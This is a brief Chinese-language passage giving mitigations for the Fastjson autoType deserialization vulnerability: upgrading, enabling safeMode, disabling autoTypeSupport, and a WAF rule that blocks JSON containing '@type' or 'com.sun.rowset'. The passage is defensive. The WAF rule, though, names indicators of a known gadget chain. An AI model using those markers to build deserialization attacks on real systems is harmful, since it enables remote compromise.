1. **升级版本**：升级至 Fastjson 1.2.83 以上版本，或迁移至 Fastjson 2。
2. **开启 SafeMode**：在代码中显式开启 `safeMode`（`ParserConfig.getGlobalInstance().setSafeMode(true);`），这是彻底防御 `autoType` 漏洞的终极方案。
3. **关闭 autoType**：如无必要，不要开启 `autoTypeSupport`。
4. **WAF 防护**：在网关层拦截请求中包含 `@type` 或 `com.sun.rowset` 等敏感特征的 JSON 数据。